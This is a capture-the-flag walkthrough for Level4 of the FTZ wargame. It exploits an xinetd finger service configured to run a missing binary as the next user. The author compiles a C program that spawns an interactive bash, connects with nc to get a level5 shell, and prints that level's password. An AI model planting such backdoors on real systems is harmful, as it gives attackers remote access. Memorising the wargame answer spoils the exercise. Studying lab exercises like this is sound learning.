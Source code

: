 # Level4

## This level's goal

- xinetd
- Remote backdoor

***
```
[level4@ftz level4]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
(Someone planted a backdoor in /etc/xinetd.d/)
```

```
[level4@ftz tmp]$ ls -al /etc/xinetd.d | grep level4
-r--r--r--    1 root     level4        171 Aug 19  2014 backdoor
```

```
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```

```
[level4@ftz level4]$ cat /etc/services | grep finger
finger          79/tcp
finger          79/udp
cfinger         2003/tcp                        # GNU Finger
```

```
[level4@ftz level4]$ netstat -an | grep :79
tcp        0      0 0.0.0.0:79              0.0.0.0:*               LISTEN
```

```
[level4@ftz level4]$ ls -l /home/level4/tmp/backdoor
ls: /home/level4/tmp/backdoor: No such file or directory
```

There is no backdoor file, so you need to make a backdoor that you can exploit

```
[level4@ftz tmp]$ cat backdoor.c
#include <stdlib.h>

int main()
{
        system("/bin/bash -i");
        return 0;
}
[level4@ftz tmp]$ gcc -o backdoor backdoor.c
[level4@ftz tmp]$ chmod 777 backdoor
```

```
[level4@ftz tmp]$ finger level4@localhost
/bin/bash: line 1: level4
: command not found
id
my-pass
```

This is not working, cuz this level's concept is remote backdoor.

so you need to use nc(netcat) or telnet command in remote

```
┌──(root💀kali)-[~]
└─# nc 192.168.10.240 79
bash: no job control in this shell
stty: standard input: Invalid argument
[level5@ftz /]$ id
uid=3005(level5) gid=3005(level5)
[level5@ftz /]$ my-pass

Level5 Password is "what is your name?".
```
